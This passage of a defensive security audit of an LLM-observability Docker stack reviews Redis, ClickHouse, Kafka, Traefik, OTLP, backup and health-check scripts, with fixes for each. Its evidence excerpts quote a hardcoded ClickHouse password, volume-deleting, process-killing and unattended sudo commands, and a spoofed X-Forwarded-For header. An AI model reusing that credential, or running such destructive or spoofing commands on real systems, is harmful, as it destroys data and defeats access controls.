1. Remove the `31413` publication (P0-5).
2. Enable Redis 6+ ACLs: define a dedicated application user with a command allowlist scoped to the ledger's actual command set and a key-pattern restriction; set `user default off`.
3. Rename or disable the full dangerous-command set, not three of them.
4. Move `requirepass` out of the command line into an ACL file mounted from a Docker secret; change the healthcheck to `redis-cli -a "$(cat /run/secrets/redis_password)" ping` or use a socket-based check that needs no credential.
5. Enable TLS (`tls-port`, `tls-cert-file`, `tls-ca-cert-file`) using the internal CA, or accept plaintext only on an `internal: true` network.
6. Rotate the password.

---

### P0-8 — ClickHouse `default` user has `access_management`, accepts `::/0`, and its user config directory is mounted writable

| | |
| --- | --- |
| **CWE** | CWE-269 Improper Privilege Management; CWE-732 |
| **Evidence** | `config/clickhouse/users.d/default-user.xml:10-15`; `docker-compose.yml:144, 149`; `config/clickhouse/config.d/custom.xml:2` |

```xml
<default>
  <networks><ip>::/0</ip></networks>                          <!-- accept from anywhere -->
  <password><![CDATA[llmobs_clickhouse_s3cret_2026]]></password>
  <access_management>1</access_management>                     <!-- full user/grant admin -->
</default>
```

reinforced by `docker-compose.yml:144`:

```yaml
CLICKHOUSE_DEFAULT_ACCESS_MANAGEMENT: "1"
```

`access_management=1` grants the `default` user authority to `CREATE USER`, `GRANT`, `CREATE ROLE`, and `ALTER SETTINGS PROFILE`. There is exactly one user in this system, it has full administrative authority, its password is published in this repository, and it accepts connections from every address on the internet (`::/0`) on two ports published to `0.0.0.0`.

Every consumer uses this same superuser identity: the Grafana ClickHouse datasource (`datasources.yml:24` — `username: default`), the health suite (`test-health.sh`), and the GDPR script. So a SQL injection in any Grafana dashboard variable, or in the GDPR script (P0-3), executes with full DDL and access-management authority. There is no read-only profile, no `readonly=1` setting, no row policy, no quota beyond the default, and no `max_execution_time` — so a single crafted query is also an availability attack against the analytics tier.

Separately, `docker-compose.yml:149` mounts the users directory **read-write** while the adjacent config directory is correctly read-only:

```yaml
- ./config/clickhouse/config.d:/etc/clickhouse-server/config.d:ro
- ./config/clickhouse/users.d:/etc/clickhouse-server/users.d          # ← no :ro
```

Any code execution inside the ClickHouse container can rewrite user definitions and ACLs — establishing persistence that survives container recreation, because the mount points back at the host source tree. It can also modify the developer's working copy on the host.

**Required fix**
1. Set `CLICKHOUSE_DEFAULT_ACCESS_MANAGEMENT: "0"` and remove `<access_management>` from `default`.
2. Create three distinct users: a writer restricted to `INSERT` on the telemetry tables (used by the collector), a **reader with `readonly=2`** restricted to `SELECT` (used by Grafana), and a break-glass admin whose credential lives outside the deployment path.
3. Constrain `<networks>` to the bridge CIDR (`172.28.0.0/16`), not `::/0`.
4. Replace `<password>` with `<password_sha256_hex>` and source it from a secret.
5. Add `:ro` to the `users.d` mount.
6. Add per-user quotas and a `max_execution_time` / `max_result_rows` profile for the Grafana reader.

---

### P0-9 — Kafka runs fully PLAINTEXT with no authentication or authorization, published to the network

| | |
| --- | --- |
| **CWE** | CWE-306; CWE-319 Cleartext Transmission |
| **Evidence** | `docker-compose.yml:94, 98-101` |

```yaml
ports:
  - "${PORT_KAFKA:-31414}:9092"
environment:
  - KAFKA_LISTENERS=PLAINTEXT://:9092,EXTERNAL://:31414,CONTROLLER://:9093
  - KAFKA_ADVERTISED_LISTENERS=PLAINTEXT://llmobs-kafka-broker:9092,EXTERNAL://localhost:31414
  - KAFKA_LISTENER_SECURITY_PROTOCOL_MAP=CONTROLLER:PLAINTEXT,PLAINTEXT:PLAINTEXT,EXTERNAL:PLAINTEXT
```

Every listener — including the **controller** listener, which carries cluster metadata and leadership — is `PLAINTEXT`. There is no `KAFKA_SASL_*` configuration, no `KAFKA_SSL_*` configuration, no `authorizer.class.name`, and no ACLs. `allow.everyone.if.no.acl.found` is therefore irrelevant: there is no authorizer at all.

Anyone who can reach `31414` can list every topic, consume the entire telemetry stream (LLM prompts, completions, user identifiers, cost data), produce forged events into any topic, create and delete topics, and alter consumer group offsets. The health suite itself demonstrates the create/delete capability (`test-health.sh:test_kafka_topic_lifecycle`) and records it as a **passing** check.

`KAFKA_ADVERTISED_LISTENERS` advertises `EXTERNAL://localhost:31414`, which is also functionally broken for any non-local client: an external consumer that bootstraps successfully is then told to connect to `localhost`. This is a correctness defect wearing the appearance of a working external listener.

**Required fix**
1. Remove the host publication and delete the `EXTERNAL` listener unless there is a real external consumer; if there is, its address must be the reachable host, not `localhost`.
2. Configure `SASL_SSL` with `SCRAM-SHA-512` for client listeners, and TLS for the controller listener.
3. Set `authorizer.class.name=org.apache.kafka.metadata.authorizer.StandardAuthorizer`, define per-principal ACLs, and set `allow.everyone.if.no.acl.found=false`.
4. Set explicit topic retention aligned to the data-retention policy (P2-5); the current default retains personal data indefinitely relative to any GDPR commitment.
5. Note: `config/kafka/server.properties` is mounted (`docker-compose.yml:112`) but the image is configured entirely by `KAFKA_*` environment variables. Confirm which one is authoritative; a config file that appears to configure the broker but does not is its own hazard.

---

### P0-10 — Traefik logs every request header, in cleartext, upstream of the PII redaction pipeline

| | |
| --- | --- |
| **CWE** | CWE-532 Insertion of Sensitive Information into Log File; CWE-312 |
| **Evidence** | `docker-compose.yml:24-26`; `config/traefik/traefik.yml:27-31`; `docker-compose.yml:1-5` |

```yaml
- "--accesslog=true"
- "--accesslog.format=json"
- "--accesslog.fields.headers.defaultmode=keep"     # L26
```

`defaultmode=keep` instructs Traefik to record **every** request header verbatim in the JSON access log. That includes `Authorization: Bearer sk-...`, `Cookie`, `X-Api-Key`, `Proxy-Authorization`, and any custom header a client sends. These are written to container stdout, captured by the `json-file` driver, and retained at 3 × 50 MB per service (`docker-compose.yml:1-5`) in world-readable files under `/var/lib/docker/containers/`.

This directly and completely defeats the control ADR-0006 §8.2 presents as its GDPR centerpiece. The PII redaction processor lives in the **OTel Collector**, which is *downstream* of Traefik. Traefik writes the raw credential to disk **before** any redaction can occur. The architecture diagram in §8.6 shows redaction as layer 3, behind the ingress at layer 1 — the diagram is accurate, and that is precisely the problem: layer 1 is the leak.

Compounding, these logs are outside the scope of `gdpr-erasure.sh` (P0-4), so credentials and personal data captured here are never erased.

**Required fix**
1. Set `--accesslog.fields.headers.defaultmode=drop` and explicitly `keep` only a non-sensitive allowlist (`User-Agent`, `Content-Type`, `X-Request-Id`).
2. Explicitly set `redact` for `Authorization`, `Cookie`, `Set-Cookie`, `X-Api-Key`, `Proxy-Authorization` as defence in depth.
3. Ship access logs to a retention-bounded, access-controlled sink rather than leaving them on the Docker host.
4. Treat all existing access logs on any machine that has run this stack as containing live credentials: destroy them as part of the P0-1 rotation.

---

### P0-11 — `backup-purge` destroys all data volumes with no verified backup, and the "ClickHouse backup" contains no data

| | |
| --- | --- |
| **CWE** | CWE-754; CWE-priv Data Loss; CWE-311 Missing Encryption of Sensitive Data |
| **Evidence** | `scripts/db-backup-and-purge.sh:42, 61, 73-80, 106`; `scripts/manage.sh:177-181`; `.gitignore` |

```bash
purge_database_volumes() {
  $bin -f "$compose_file" down -v            # L78 — deletes ALL named volumes
}
main() {
  backup_alloydb  "$backup_dir" "$ts"
  backup_clickhouse "$backup_dir" "$ts"
  purge_database_volumes "$compose_file" "$bin"   # L106 — runs unconditionally
}
```

`./manage.sh backup-purge` is a single command, with **no confirmation prompt, no dry-run, no `--yes` flag, and no check that either backup succeeded**, that permanently deletes `alloydb_data`, `clickhouse_data`, `kafka_data`, `tempo_data`, and `grafana_data`. Both backup functions swallow failure with `|| true` (L42, L61) and merely print a yellow warning if the output file is empty — then `main` proceeds to destroy the volumes regardless.

The ClickHouse "backup" is worse than useless:

```bash
docker exec -t llmobs-clickhouse-analytics clickhouse-client \
  --query "SHOW CREATE DATABASE llm_telemetry_analytics" > "$target_file"   # L61
```

That is **one line of DDL**. It contains no table definitions and no rows. The script then prints `✓ ClickHouse backup saved to: ...` and deletes the ClickHouse data volume. This is unrecoverable, silent, total loss of the analytics tier, presented to the operator as a successful backup.

The AlloyDB backup has three further defects:
- **`docker exec -t` allocates a TTY**, which converts `\n` to `\r\n` throughout the dump. A `pg_dumpall` output corrupted this way can fail to restore — a backup that passes the `[ -s "$target_file" ]` non-empty check while being unusable.
- **`pg_dumpall -U admin` is hardcoded** (L42), ignoring `ALLOYDB_USER` from `.env`.
- **`pg_dumpall` emits global objects including role password hashes.** The dump is written to `$pkg_dir/backups/` with the default umask (typically `0644` — world-readable), **is not encrypted**, and **`backups/` is absent from `.gitignore`** — verified. A routine `git add -A` commits a full database dump containing credential hashes.

There is no integrity checksum, no restore test, no offsite copy, and no retention policy.

**Required fix**
1. Split the command. `backup` and `purge` must be separate verbs. `purge` must require an explicit `--confirm-destroy-all-data` flag and an interactive typed confirmation when a TTY is present.
2. Make `purge` conditional on backup success: verify each artifact exists, is non-trivial in size, and passes a restore smoke test into a scratch container before anything is deleted.
3. Replace the ClickHouse pseudo-backup with `BACKUP DATABASE ... TO Disk(...)` or a `clickhouse-client --query "SELECT * FROM ... FORMAT Native"` export per table; at minimum use `SHOW CREATE TABLE` for every table plus data export.
4. Drop `-t` from every `docker exec` used for data capture.
5. Add `backups/` to `.gitignore`. Set `umask 077` in the script. Encrypt artifacts at rest (age/gpg) with a key not stored in the repository.
6. Emit a SHA-256 manifest per run and enforce a retention window.

---

## 4. P1 — High Findings

### P1-1 — OTLP receivers accept unauthenticated telemetry from any origin, with wildcard CORS

**Evidence:** `config/otel-collector/otel-collector-config.yaml:1-16`; `docker-compose.yml:202-203`; `config/tempo/tempo-config.yaml:5-12`

```yaml
receivers:
  otlp:
    protocols:
      grpc: { endpoint: 0.0.0.0:4317 }
      http:
        endpoint: 0.0.0.0:4318
        cors:
          allowed_origins:
            - "http://localhost:31400"
            - "http://localhost:3000"
            - "http://127.0.0.1:31400"
            - "http://127.0.0.1:3000"
            - "*"                      # ← L14: nullifies the entire allowlist above
          allowed_headers: ["*"]       # ← L16
```

The four carefully-enumerated origins are decorative: `"*"` matches everything. Combined with `allowed_headers: ["*"]`, any web page on the internet can drive the OTLP HTTP receiver from a victim's browser.

There is **no authentication extension** on the collector — no `basicauth`, no `bearertokenauth`, no `oidc` — and no `auth:` block on either receiver. Tempo's own OTLP receivers (`tempo-config.yaml:9-12`) are equally open and are additionally published on `31423`.

Consequences: **telemetry poisoning** (forged spans that corrupt cost accounting, SLO dashboards, and audit trails — directly undermining the EU AI Act "auditability" claim in ADR-0006 §8.5), **storage exhaustion** (unbounded span injection against a local-disk Tempo backend with no quota), and **resource exhaustion** of the redaction/batch pipeline.

The `rate-limit-ingest` and `payload-limit` middlewares defined in `dynamic.yml:53-67` apply **only** to traffic arriving through Traefik's `otel-router`. Ports `31417`/`31418` bypass them completely.

**Fix:** remove `"*"` from `allowed_origins` and replace `allowed_headers: ["*"]` with an explicit list; add a `bearertokenauth` or `oidc` extension and attach it to both receivers via `auth:`; remove the host port publications; enforce Tempo per-tenant `max_traces_per_user` and ingestion rate limits under `overrides`.

---

### P1-2 — The PII redaction control fails open, covers one signal type, and the ClickHouse write path it protects does not exist

**Evidence:** `config/otel-collector/otel-collector-config.yaml:28-36, 65-79`

```yaml
transform/pii_redaction:
  error_mode: ignore          # L29 — every redaction failure is silently discarded
  trace_statements:           # L30 — traces only
    - context: span           # L31 — span attributes only
```

Three defects, each independently disqualifying for a control cited as the GDPR mechanism in ADR-0006 §8.2 and §8.7.2:

1. **`error_mode: ignore` means the control fails open.** A malformed statement, a type mismatch, or an unexpected attribute shape causes the redaction to be skipped and the **unredacted** span to continue down the pipeline to storage. There is no metric, no log, and no alert on redaction failure. A silently-disabled privacy control is indistinguishable from a working one until a breach.
2. **Coverage is `context: span` attributes only.** Not covered: span **names** (frequently `POST /v1/chat/completions?key=sk-...`), span **events** (where OpenTelemetry GenAI semantic conventions place `gen_ai.prompt` and `gen_ai.completion` — i.e. exactly the prompt and completion text), span **links**, **resource** attributes, and **status messages**. There are no `log_statements` or `metric_statements`, and there is no logs or metrics pipeline at all (`service.pipelines` defines only `traces`, L76-79). For an *LLM observability* platform, redacting span attributes while leaving span events untouched misses the primary location of the sensitive data.
3. **The ClickHouse export path does not exist.** `exporters:` defines exactly two: `otlp/tempo` and `debug` (L65-72). There is **no ClickHouse exporter**. ADR-0006 §6.1 ("3b. HTTP Batch Insert"), §6.2 ("4b. HTTP Native Batch Insert (Port 8123) — `clickhouse.insert.opentelemetry_span_log`"), §8.9 ("Batch Write Logs & Metrics" → ClickHouse), and §8.10 (Grafana ClickHouse datasource → `telemetry_spans`) all describe a data flow that is not implemented. `telemetry_spans` is never created by anything in this repository. The Grafana ClickHouse datasource points at an empty database, and the GDPR erasure script deletes from a non-existent table (P0-4).

Also: `otlp/tempo` sets `tls: insecure: true` (L68-69), so the collector→Tempo hop — carrying spans *after* they have been declared sensitive enough to require redaction — is unencrypted.

**Fix:** set `error_mode: propagate` and alert on `otelcol_processor_*` error metrics; extend statements to `context: spanevent`, `context: resource`, and span name; add `log_statements` and a logs pipeline if logs are ingested; prefer the dedicated `redaction` processor with an attribute allowlist (deny-by-default) over regex denylists — regex denylists cannot enumerate every key format across providers; either implement the ClickHouse exporter and its schema or **delete the ClickHouse write path from ADR-0006's diagrams**; enable TLS on the Tempo exporter.

---

### P1-3 — The 52-check health suite cannot fail, and is the sole evidence cited for ADR-0006's security claims

**Evidence:** `scripts/test-health.sh:31-69, 106-146, 148-176, 178-198, 274-286`; `docker-compose.yml:117, 282, 315`; `scripts/manage.sh:75`

ADR-0006 §5.1 presents "✓ ALL 52/52 HEALTH & SECURITY CHECKS PASSED" as validation. Six independent defects make that number meaningless:

**(a) Container checks count failures as passes.** `test-health.sh:63-69`:

```bash
if [ "$status" = "healthy" ] || [ "$status" = "running" ]; then
  echo -e "  ${GREEN}[PASS]${NC} ..."
  PASSED_CHECKS=$((PASSED_CHECKS + 1))
else
  echo -e "  ${YELLOW}[WARN]${NC} ... Status: ${status}"
  PASSED_CHECKS=$((PASSED_CHECKS + 1))      # ← L68: WARN also increments PASSED
fi
```

`restarting`, `exited`, `paused`, `created`, and `unhealthy` all count as passes. Section 1 reports 9/9 whenever nine containers exist.

**(b) The TLS check passes on a bare TCP connect.** `test-health.sh:153`:

```bash
if echo | openssl s_client -connect "${host}:${port}" -servername "${host}" 2>/dev/null \
     | grep -q "Verify return code: 0\|CONNECTED"; then
```

`openssl s_client` prints `CONNECTED(00000003)` on stdout the moment the **TCP** connection is established — before the TLS handshake result is known. The alternation means the check passes for an expired certificate, a hostname mismatch, an untrusted chain, a failed handshake, or a port serving plain HTTP. ADR-0006 labels this section "TLS Certificate & HTTPS Verification (3/3 PASS)". It verifies that a port is open.

**(c) Header checks never inspect header values.** `test-health.sh:172-177` passes if `grep -i "^${header}:"` returns any line. `Strict-Transport-Security: max-age=0` passes. `X-Frame-Options: ALLOWALL` passes.

**(d) HTTP checks accept a body match as a status match.** `test-health.sh:124, 136`:

```bash
if echo "$code" | grep -qE "^(${expected_pattern})$" || echo "$body" | grep -qi "$expected_pattern"; then
```

The second clause searches the **response body** for the expected pattern. For `check_http "Grafana Tempo" ".../ready" "200"`, a 503 error page whose body happens to contain the substring `200` — a byte count, a timestamp, a port number — passes the check.

**(e) The Redis auth guard passes when Redis is absent.** `test-health.sh:276-281`:

```bash
UNAUTH_RESULT=$(docker exec -i llmobs-redis-ledger redis-cli PING 2>&1 || echo "")
if echo "$UNAUTH_RESULT" | grep -qi "NOAUTH\|ERR\|Authentication"; then
  echo -e "  ${GREEN}[PASS]${NC} ... Unauthenticated PING rejected"
```

`2>&1` captures Docker's own errors. If the container is missing, stopped, or renamed, Docker prints `Error response from daemon: No such container: llmobs-redis-ledger` — which matches `ERR` case-insensitively — and the check reports that Redis authentication is correctly enforced. The one genuine negative security test in the suite passes hardest when the service does not exist.

**(f) Nothing gates on the result.** Three compose healthchecks end in `|| exit 0` (`docker-compose.yml:117` Kafka, `:282` AlloyDB, `:315` Temporal), so those containers report `healthy` unconditionally. And `manage.sh:75` runs the entire suite as `bash "$health_script" || true` — deployment proceeds regardless of outcome.

**What the suite does not test, at all:** that the Traefik dashboard requires authentication; that ClickHouse rejects wrong credentials; that Grafana rejects anonymous access; that OTLP rejects unauthenticated spans; that Kafka rejects unauthorized clients; that datastore ports are *unreachable* from off-host. It contains no negative test that can distinguish a hardened deployment from an open one.

Worse, Section 2 asserts that ports 31413, 31414, 31420, 31421, 31422, 31424, and 31425 **are reachable**, and counts each as a security pass. **The suite's definition of success is the exposure described in P0-5.**

**Fix:** remove the `PASSED_CHECKS` increment from the WARN branch; assert `Verify return code: 0` against the internal CA with `-CAfile`, drop `CONNECTED` from the pattern, and add `-verify_return_error`; assert header *values* with expected-value regexes; delete the body-match fallback from `check_http`; make the Redis check distinguish Docker errors from Redis errors and assert the exact `NOAUTH` reply; remove `|| exit 0` from all compose healthchecks; remove `|| true` from `manage.sh:75` so a failed health run fails the deploy; add the negative tests listed above; and **stop citing the check count as security evidence in the ADR** — replace it with the specific assertions that passed.

---

### P1-4 — Container hardening claimed in ADR-0006 is entirely absent from the compose file

**Evidence:** `docker-compose.yml` (all services); ADR-0006 §8.6, §8.7.3

`grep -nE "security_opt|no-new-privileges|cap_drop|read_only|user:" docker-compose.yml` returns **nothing**. Not one service defines:

| Control | ADR-0006 claim | Reality |
| --- | --- | --- |
| `security_opt: no-new-privileges:true` | §8.6 layer 4 "Microservice Sandbox Security"; §8.7.3 with a `prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0)` execution path | Absent |
| `cap_drop: [ALL]` | — | Absent; every container holds the full default capability set (`CHOWN`, `SETUID`, `SETGID`, `NET_RAW`, `MKNOD`, …) |
| `read_only: true` + `tmpfs` | — | Absent; every root filesystem is writable |
| `user:` / non-root | §8.1 "drop runtime privileges to unprivileged service users" | Not enforced; relies entirely on each image's own entrypoint |
| `pids_limit` | — | Absent; fork-bomb in any container exhausts host PIDs |
| seccomp / AppArmor profile | — | Docker defaults only, never asserted |

§8.7.3's LLD narrates a kernel call sequence for a flag that was never written. This is the clearest instance of the ADR documenting an aspiration as a shipped control.

`NET_RAW` in particular is retained on every container on a shared flat bridge (P0-5), enabling ARP spoofing and traffic interception between services on `172.28.0.0/16`.

**Fix:** add to every service — `security_opt: ["no-new-privileges:true"]`, `cap_drop: [ALL]` with a minimal `cap_add` where genuinely required, `read_only: true` with explicit `tmpfs` for scratch paths, `pids_limit`, and an explicit non-root `user:` where the image supports it. Then re-verify with `docker inspect`, and add those assertions to the health suite. Until they exist, **remove §8.6 layer 4 and §8.7.3 from ADR-0006.**

---

### P1-5 — Script discovery executes the first file matching a name, and those scripts run `sudo`

**Evidence:** `scripts/discovery/dynamic-discovery.sh:141-190`; `scripts/manage.sh:27-38, 58-74`; `scripts/prereqs/system-prereqs.sh:19, 29, 54, 88`

`find_required_script` resolves a script by **filename** and immediately executes it:

```bash
prereq_script=$(find_required_script "system-prereqs.sh" "$scripts_root")
bash "$prereq_script"                               # manage.sh:58-59
```

`discover_script_file_recursive` resolves in this order:

1. `$search_root/scripts/$script_name`
2. **`$(pwd)/$script_name`** (L150-153) — the current working directory
3. First glob-order match from a depth-3 DFS over `$search_root`
4. First glob-order match from a depth-4 DFS over the **entire git repository root** (L170-179)
5. `rank_candidates`, which awards **+50 for being executable** (L93) and scores shallower paths higher (L96-97), with a content check that greps for the strings `main`, `bash`, and `set -e` (L100) — trivially satisfied by any attacker-authored script

Step 2 is the sharpest edge: **running `./packages/configs/llm-obs-infra/scripts/manage.sh up` from a directory that happens to contain a file named `system-prereqs.sh` executes that file instead.** Steps 3-5 widen this to any writable location within the repository tree — a test fixture directory, a scratch folder, an extracted archive, a vendored dependency, a CI workspace shared between jobs.

This matters because of what those scripts do. `system-prereqs.sh` runs, without prompting:

```bash
sudo apt-get update && sudo apt-get install -y "${missing[@]}"     # L19
sudo systemctl enable --now docker                                  # L29
sudo sysctl -w vm.max_map_count=262144                              # L54
sudo ufw allow in on llmobs-network to any                          # L88
```

On any host with passwordless sudo — the norm for CI runners and many developer laptops — **a planted `system-prereqs.sh` is unattended root code execution.** ADR-0006 §2.3 presents this discovery mechanism as a "6-Stage DFS & HashSet path discovery engine," framing the vulnerability as an architectural feature.

**Fix:** delete dynamic discovery for executables. Resolve sibling scripts relative to `${BASH_SOURCE[0]}` only, with no search and no fallback. Verify each resolved path is inside the package directory and refuse anything outside it. Remove `$(pwd)` from every resolution path. Separately, remove all `sudo` from the deploy path (see P1-6).

---

### P1-6 — `verify_*` functions mutate host state, including unattended package installation

**Evidence:** `scripts/prereqs/system-prereqs.sh:10-23, 25-33, 48-57, 82-91, 120-131`

Functions named `verify_*` — and documented in ADR-0006 §2.3 as "checks" — perform privileged, persistent modifications to the host:

| Function | Actual behaviour |
| --- | --- |
| `verify_host_utilities` | `sudo apt-get update && sudo apt-get install -y` — unattended package installation from whatever repositories the host trusts, no pinning, no confirmation |
| `verify_docker_daemon` | `sudo systemctl enable --now docker` — permanently enables a system service |
| `verify_kernel_sysctls` | `sudo sysctl -w vm.max_map_count=262144` — modifies a live kernel parameter host-wide |
| `verify_firewall_rules` | `sudo ufw allow ...` — attempts to modify the host firewall (and fails silently — P0-5) |
| `reconcile_network_conflict` | **`docker network rm "llmobs-network"`** if a label does not match — silently destroys a Docker network other stacks may be attached to |

Two of them are also non-functional as verification:

- **`verify_clock_sync` (L68-80) tests only whether a binary is installed**, never whether the clock is synchronised. `command -v systemd-timesyncd` succeeds on essentially every systemd host, so the function prints `✓ System NTP time synchronization active` on a host whose clock is hours adrift. ADR-0006 Edge Case 9 credits this with preventing telemetry timestamp drift. It cannot detect drift.
- **`verify_file_descriptors` (L35-46) calls `ulimit -n` inside its own subshell.** That affects only that shell. It does not affect the Docker daemon, and it does not affect containers — which take their limits from the daemon or from `ulimits:` in compose. It is a no-op for the failure mode it claims to prevent. (The Kafka and ClickHouse services *do* set `ulimits:` correctly at `docker-compose.yml:83-86` and `:127-130` — that is the control that actually works, and it makes this function redundant as well as ineffective.)

**Fix:** split `check_*` (read-only, non-zero exit on failure) from an explicit, separately-invoked `bootstrap` command that performs privileged changes with informed consent. Never run `apt-get install` from a deploy path — declare prerequisites and fail with instructions. Make `verify_clock_sync` parse `timedatectl show -p NTPSynchronized --value` or `chronyc tracking` offset. Delete `verify_file_descriptors`. Make `reconcile_network_conflict` refuse to delete a network with attached containers.

---

### P1-7 — `port-manager.sh` SIGKILLs any process associated with ports 31410-31425, including clients

**Evidence:** `scripts/ports/port-manager.sh:10-22`; `scripts/manage.sh:65-67`

```bash
free_single_port() {
  local port=$1
  if command -v fuser >/dev/null 2>&1; then
    fuser -k "${port}/tcp" >/dev/null 2>&1 || true       # L13
  elif command -v lsof >/dev/null 2>&1; then
    pids=$(lsof -t -i:"${port}" 2>/dev/null || true)
    kill -9 $pids 2>/dev/null || true                     # L19
  fi
}
```

Executed on every `./manage.sh up` across all sixteen ports, with no identification of the target, no confirmation, no allowlist, and errors suppressed.

Both `fuser -k <port>/tcp` and `lsof -i:<port>` match sockets where the port is the **local *or* the remote** endpoint. Consequences:

- Any process with an **established connection to** one of these ports is SIGKILLed — including the operator's own `psql`, `redis-cli`, browser tab, or application under test.
- Any unrelated service that happens to bind a port in the range dies without warning. On a shared host or CI runner, that is a denial of service against another tenant's workload.
- `kill -9` gives no opportunity to flush or shut down cleanly — the exact class of unclean termination and disk-block corruption that ADR-0006 §1 lists as a problem it solves.
- `$pids` is unquoted (L19), relying on word splitting; an unexpected `lsof` output shape produces unpredictable kill targets.

ADR-0006 §8.4 maps this to HIPAA as a control that prevents "port-listening process hijack attacks." It *is* a port-listening process hijack, performed automatically and with root-adjacent force.

**Fix:** do not kill anything. Detect the conflict, identify the holder (`ss -ltnp`), and **fail with a clear message** so the operator decides. If automatic reclamation is genuinely required, restrict it to processes the tool itself created (verified by PID file or `docker` label), use `SIGTERM` with a grace period before `SIGKILL`, and filter `lsof` output to `LISTEN` state only.

---

### P1-8 — Tempo and Temporal have no authentication; Tempo is also fronted by Traefik with no auth middleware

**Evidence:** `config/tempo/tempo-config.yaml` (entire); `docker-compose.yml:172-174, 293-306`; `config/traefik/dynamic.yml:109-117`

`tempo-config.yaml` sets no `multitenancy_enabled`, no auth, and `stream_over_http_enabled: true`. Tempo is published on `31416` (query API) and `31423` (OTLP), and is additionally routed through Traefik by `tempo-router`, whose middleware chain is `security-headers` + `rate-limit` — **neither of which authenticates anything.**

Tempo stores the full trace payload. For an LLM observability platform, that is prompts, completions, tool arguments, user identifiers, and cost data. **Anyone who can reach the Docker host, or who can send `Host: llmobs.tempo` to the gateway, can read every trace.**

Temporal is worse-configured still: no TLS, no `authorization` plugin, no claim mapper. Ports `31424` (gRPC frontend) and `31425` (UI) are published. An unauthenticated peer can list namespaces, read complete workflow histories — which in Temporal include every activity input and output — and start, signal, reset, and terminate workflows.

**Fix:** put both behind `forwardAuth` to an identity provider; enable Tempo multitenancy with per-tenant `X-Scope-OrgID` enforcement and set `overrides` retention/ingestion limits; configure Temporal's authorizer and claim mapper with mTLS on the frontend; remove all four host publications.

---

### P1-9 — Rate limiting is trivially bypassed by a spoofed `X-Forwarded-For`

**Evidence:** `config/traefik/dynamic.yml:44-60`

```yaml
rate-limit:
  rateLimit:
    average: 100
    burst: 200
    sourceCriterion:
      ipStrategy:
        depth: 1          # L51
```

`ipStrategy.depth: 1` instructs Traefik to take the **1st IP from the right of the client-supplied `X-Forwarded-For` header** as the rate-limit key, instead of the real TCP peer address. Traefik is the edge here — there is no upstream proxy, and no `trustedIPs` list is configured on the entrypoint or in the strategy.

A client therefore chooses its own rate-limit bucket:

```
X-Forwarded-For: 1.2.3.4     →  bucket A
X-Forwarded-For: 1.2.3.5     →  bucket B
```

Every request can carry a fresh fabricated address, so both `rate-limit` (100/s) and `rate-limit-ingest` (500/s) are unbounded in practice. The same header is also the natural key for any downstream abuse logic and for the `ip_address` column in `security_audit_logs` — so audit records are attacker-controlled too.

**Fix:** remove `ipStrategy.depth` entirely so Traefik uses the real peer address, or — if a genuine upstream proxy is later introduced — set `ipStrategy.excludedIPs` to that proxy's addresses and configure `forwardedHeaders.trustedIPs` on the entrypoint. Never derive an audit or rate-limit identity from an untrusted header.

---

### P1-10 — TLS certificates and the root CA are regenerated on every deployment

**Evidence:** `scripts/manage.sh:61-63`; `scripts/generate-certs.sh:126-128, 137-148, 90-91, 33`

```bash
cert_script=$(find_required_script "generate-certs.sh" "$scripts_root")
bash "$cert_script" --force                          # manage.sh:63
```

`--force` skips `check_existing_certs` (`generate-certs.sh:126`) and regenerates the **root CA key, root CA certificate, server key, and server certificate** on every single `./manage.sh up`.

- The trust anchor changes on every deploy. Any client that imported the previous CA now fails; the practical workaround operators adopt is to stop verifying — which is exactly what Edge Case 13 institutionalised with `curl -k` (P2-2).
- There is no key continuity, no CA/leaf separation in lifetime, no CRL, no OCSP, and no revocation story. Rotating a compromised key is indistinguishable from normal operation, so compromise cannot be detected or responded to.
- The **CA private key is written next to the server key** in `config/certs/` and retained indefinitely. A root CA that signs `localhost`, `127.0.0.1`, and six `llmobs.*` names, kept on the same disk as the server it certifies, has no defensive value as a trust anchor.
- The server certificate is issued with `extendedKeyUsage = serverAuth, clientAuth` (`generate-certs.sh:91`). If mutual TLS is ever introduced, the gateway's server certificate is simultaneously a valid client credential — an unnecessary role conflation baked into the template.
- Validity is 825 days for **both** CA and leaf (`:33`), with no rotation schedule and no automation beyond "regenerate everything, always."

**Fix:** remove `--force` from `manage.sh`; regenerate the leaf only when it is near expiry and never regenerate the CA implicitly. Generate the CA once, out-of-band, and store its key outside the deployment tree (HSM, sealed secret, or an operator-held offline copy). Separate lifetimes: CA years, leaf 90 days. Drop `clientAuth` from the server profile. Add SAN/expiry assertions to the health suite that verify against the pinned CA rather than skipping verification.

---

### P1-11 — Five images are pinned to `:latest`, with no digest and no scanning

**Evidence:** `docker-compose.yml:79, 123, 161, 186, 217`; `scripts/setup.sh:26-33`

```
apache/kafka:latest
clickhouse/clickhouse-server:latest
grafana/tempo:latest
otel/opentelemetry-collector-contrib:latest
grafana/grafana:latest
```

`:latest` means the deployed software version is whatever the registry served at pull time. There is no reproducibility, no way to state which version is running for CVE triage, no rollback target, and no protection against a tag being repointed. Nothing in the pipeline scans images. ADR-0006 §8.1 claims SOC 2 processing integrity; "we run an unknown version of five components" is incompatible with that claim.

`setup.sh:27` compounds the drift by pre-pulling `traefik:v2.10` while `docker-compose.yml:9` runs `traefik:v3.7` — two major versions apart, with incompatible configuration schemas. The pull is wasted and the version referenced in setup documentation is wrong.

**Fix:** pin every image to an immutable digest (`image: grafana/grafana:11.3.0@sha256:...`); add Trivy or Grype to CI with a severity gate; adopt a scheduled, reviewed bump process (Renovate/Dependabot); correct `setup.sh` to match compose.

---

## 5. P2 — Medium Findings

### P2-1 — The "Zero-Trust Network Signature" is security theatre

**Evidence:** `config/traefik/dynamic.yml:27-28, 32`; `scripts/orchestrator/stack-orchestration.sh:97-104`; `scripts/test-health.sh` header check; ADR-0006 Edge Case 12, §8.3, §8.7.1

ADR-0006 devotes Edge Case 12 and §8.3 to a control it describes as preventing "unauthorized container traffic injection" and "spoofed internal requests." It consists of:

1. A Docker network **label**, `com.llmobs.network.signature=llmobs-net-sig-v1.0`. Docker labels are inert metadata. They are not consulted by any authorization path. Any user with Docker access can `docker network connect llmobs-network <container>` regardless of labels.
2. A **constant header** `X-LLMObs-Network-Signature: llmobs-net-sig-v1.0`, *injected* by Traefik as a `customRequestHeaders` entry — that is, Traefik **writes** it, and nothing ever **reads or verifies** it. There is no middleware, no plugin, and no backend check that requires its presence or validates its value.
3. The value is a fixed string committed to this repository, so it is public even if something did check it.
4. The health suite's "verification" (`test-health.sh` section 4) asserts that the response contains a header Traefik itself just added. It is a tautology — it tests that Traefik can copy a string.

